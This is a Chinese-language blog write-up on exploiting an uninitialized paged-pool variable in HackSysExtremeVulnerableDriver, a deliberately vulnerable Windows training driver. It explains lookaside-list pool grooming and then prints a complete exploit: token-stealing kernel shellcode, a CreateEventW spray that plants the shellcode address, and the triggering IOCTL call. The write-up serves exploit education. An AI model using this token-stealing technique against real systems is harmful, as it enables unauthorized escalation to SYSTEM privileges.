




<small>转载请注明出处哦 :  )</small>

## 0x00 前言
本篇的内容为未初始化换页池变量漏洞分析利用（Uninitialized Heap Variable）

## 0x01 未初始化堆变量漏洞分析
首先打开 UninitializedMemoryPagedPool.c 文件



逻辑还是很清晰的，若我们的输入不等于 MagicValue，就会直接对没有初始化的换页池进行调用。

就像我们在未初始化内核栈变量利用中所用的方法一样，若我们可以使这个未初始化的换页池填满（后面可以知道，我们不需要用喷射的方法，因为这次我们可以精确地控制这个换页池的内容）我们的 shellcode 的地址，那么之后发生 UninitializedMemory->Callback() 的时候就会执行我们的 shellcode 了。

那么我们有什么办法可以控制 UninitializedMemory 申请的换页池的脏内容呢？

这里我们可以用到 Lookaside List（后备列表 | 快查表 | 旁视列表），对于 Lookaside List 是什么有不清楚的可以[阅读一下这篇文章](https://vxfade.wordpress.com/2010/06/06/wrk-%E5%AF%B9%E5%90%8E%E5%A4%87%E5%88%97%E8%A1%A8%EF%BC%88lookaside-list%EF%BC%89%E7%9A%84%E6%9C%BA%E5%88%B6%E5%88%86%E6%9E%90/)，我个人觉得查得到的资料里应该算写得不错的了 ： )

这里也再大概解释一下什么是 Lookaside List

首先，在进程控制块（KPRCB）里保存着这么一个结构



GENERAL_LOOKASIDE 的结构为（这里你能发现 Windows 未文档化的很多名字在不同的地方或多或少都有点区别，毕竟 Windows 是闭源的，你只要知道它们说的是同一个东西就好了）

```c
typedef struct _GENERAL_LOOKASIDE
{
     union
     {
          SLIST_HEADER ListHead;
          SINGLE_LIST_ENTRY SingleListHead;
     };
     WORD Depth;
     WORD MaximumDepth;
     ULONG TotalAllocates;
     union
     {
          ULONG AllocateMisses;
          ULONG AllocateHits;
     };
     ULONG TotalFrees;
     union
     {
          ULONG FreeMisses;
          ULONG FreeHits;
     };
     POOL_TYPE Type;
     ULONG Tag;
     ULONG Size;
     union
     {
          PVOID * AllocateEx;
          PVOID * Allocate;
     };
     union
     {
          PVOID FreeEx;
          PVOID Free;
     };
     LIST_ENTRY ListEntry;
     ULONG LastTotalAllocates;
     union
     {
          ULONG LastAllocateMisses;
          ULONG LastAllocateHits;
     };
     ULONG Future[2];
} GENERAL_LOOKASIDE, *PGENERAL_LOOKASIDE;
```

每一个 GENERAL_LOOKASIDE 都是一条 Lookaside List，所有的 GENERAL_LOOKASIDE 用双向链表串起来，其中

> - SINGLE_LIST_ENTRY SingleListHead 是一条具有相同大小的空闲换页池单向链表
> - WORD MaximumDepth 是单向链表的最大深度，默认值为 256
> - LIST_ENTRY ListEntry 就是 GENERAL_LOOKASIDE 双向链表

其结构大致像这个样子（幼儿园画师来了）


说完了 Lookaside List 的结构了，那么再说说 Lookaside List 是什么

由于调用内存管理器来进行分配内存是一件相对来说比较耗时的操作，若我们频繁地使用内存管理器对小块内存进行分配释放，那么这个操作会降低系统的性能。因此，后备列表（Lookaside List）提供了一个比较简单的提高小块内存分配和申请效率的机制，后备列表用来进行固定大小内存块的小内存块的动态申请和释放。

简单地说，就是当我们使用 ExAllocatePoolWithTag 申请一个小块内存时，系统会首先尝试从 KPRCB 中的 PP(N)PagedLookasideList 分配内存。在分配内存时，后备列表中的内存块只提供满足大小符合的申请，否则不予处理

再看到我们的 UninitializedMemory 结构。

```c
typedef struct _UNINITIALIZED_MEMORY_POOL
{
    ULONG_PTR Value;
    FunctionPointer Callback;
    ULONG_PTR Buffer[58];
} UNINITIALIZED_MEMORY_POOL, *PUNINITIALIZED_MEMORY_POOL;
```

4 + 4 + 58 * 4 + pool header = 248 < 256

所以说，UninitializedMemory 属于小块内存，系统会首先尝试从 PPPagedLookasideList 中分配申请的换页池。

到这里就明了了，我们若使 PPPagedLookasideList 中填满我们的脏空闲内存块，等会儿 UninitializedMemory 又从 PPPagedLookasideList 申请换页池块，发生未初始化变量调用的时候，就会执行我们的 shellcode 了。

最后一个问题，我们该怎么使空闲内存块变脏呢？还记得我们在池溢出一章中使用的函数 CreateEvent 吗？



虽然 CreateEvent 对象是在非换页池中的，但是它的第四个参数 lpName 其实是保存在换页池中的。它的类型为 LPCSTR，要控制 256 个字节还是可以做到的。

## 0x02 未初始化堆变量漏洞利用
首先还是先贴上 exp
```c
// uninitializedHeapVariable.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

/*
char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
	//"\xC2\x10\x00"                  // ret 16
};
*/

#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_ETHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID

VOID shellCode()
{
	__asm
	{
		nop;
		nop;
		nop;
		nop;
		pushad; Save registers state

		; Start of Token Stealing Stub
		xor eax, eax; Set ZERO
		mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
		; _KTHREAD is located at FS : [0x124]

		mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

		mov ecx, eax; Copy current process _EPROCESS structure

		mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM process PID = 0x4

		SearchSystemPID:
			mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

		mov edx, [eax + TOKEN_OFFSET]	; Get SYSTEM process nt!_EPROCESS.Token
		mov[ecx + TOKEN_OFFSET], edx	; Replace target process nt!_EPROCESS.Token
										; with SYSTEM process nt!_EPROCESS.Token
		; End of Token Stealing Stub

		popad; Restore registers state

		ret;
	}
}

int main()
{

	printf("shellcode address : 0x%p", &shellCode);

	WCHAR lpName[0xf0 / 2] = { 0 };// 因为一个Unicode是2个字节
	memset(lpName, '\x41', sizeof(lpName));

	for (int i = 0; i < 256; i++) {
		*(PDWORD)((char *) lpName + 4 ) = (DWORD32)& shellCode; // 这里为什么要先 (char *)，因为一个WCHAR是2个字节
																// 要是不(char *)的话会跑到(char *)lpName + 8的位置
		*(PDWORD)((char *) lpName + 0xf0 - 4) = i;
	}

	HANDLE spray[256] = { 0 };

	for (int i = 0; i < 256; i++) {
		spray[i] = CreateEventW(NULL, FALSE, FALSE, (LPCWSTR) lpName);
	}

	for (int i = 0; i < 256; i++) {
		CloseHandle(spray[i]);
	}

	int value = 0x1;
	int *payload = &value;
	HANDLE hevDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, NULL, 0x3, 0, NULL);
	DWORD lpBytesReturned = 0;
	DeviceIoControl(hevDevice, 0x222033, payload, 0x4, NULL, 0, &lpBytesReturned, NULL);

	system("whoami");

    return 0;
}
```

这里程序大致在做什么结合 0x01 小节来看应该还是很清晰的。只是代码中有些细节我要解释一下

### 使用 CreateEventW 的原因
看过我之前文章的朋友应该可以发现我之前的文章用的都是

```c
char shellcode[] = {...}

LPVOID ptr = VirtualAlloc(0, , , )
RtlCopyMemory(ptr, , )
```

这种形式来保存 shellcode 的。但是你发现我这次是将 shellcode 直接写在代码段中的。为什么呢？

你若是自己尝试一下，会发现用 VirtualAlloc 分配的地址大致都是 0x000d0000 这样的格式的，若是自顶向下分的话大致都是 0x74ef0000 这样的格式的。但是你看我们 lpName 参数类型是 LPCSTR。众所周知字符串遇到 00 就直接截断了，这样子我们的 payload 根本无法完整地传上去。

那么怎么办呢？
> 1. 用 VirtualAlloc 时指定基地址可行吗？按理来说这是可行的，但是第一个参数除了 0 让系统自动分配外，我就没分配成功过 emmmmm
> 2. 用 Heap 来保存 shellcode 呢？尝试了一下默认堆的分配地址大致是 0x00344290 这样的格式的，没有两个连续在一起的 00，只要把字符编码变成 WCHAR 就可以了。所以按理来说这中方法可行，不过我自己没试过
> 3. 不保存 shellcode 了，直接将 shellcode 写在代码段中，这时你会发现 shellcode 的地址大致是 0x00df1000。还是没有两个连续在一起的 00，只要把字符编码变成 WCHAR 就可以了。这种方法亲测可用并且师傅们也都是用的这种方法

所以为什么要使用 CreateEventW 而不是 CreateEventA？因为我们的地址中总会出现 00，用 A 的话字符串会被截断，用 W 的话要遇到 00 00 才会被截断，这满足我们的需求。

### 使每个 lpName 都不相等的原因
因为若是每个 lpName 都相等的话，你就算调用再多次 CreateEventW，到最后换页池中也只存在着一块 lpName（因为是字符串，只要有一份就够了），也就是说到最后 PPPagedLookasideList 256字节链上只会存在一块空闲换页池，那要是这个换页池在我们的漏洞触发前被别人申请了呢？所以填满PPPagedLookasideList 256字节链才是最安全的。

到这里的话应该没有什么盲点了吧 emmm

最后是一个求助

我在调试时发现



前四个字节明明应该被我们填充了 \x41\x41\x41\x41，并且在驱动程序把这块空间申请出来之后应该是没有对前四个字节做过任何操作的，怎么就莫名其妙地被置 0 了？

## 0x03 结束语
： )

---

<p align='right'>2019.9.7</p>
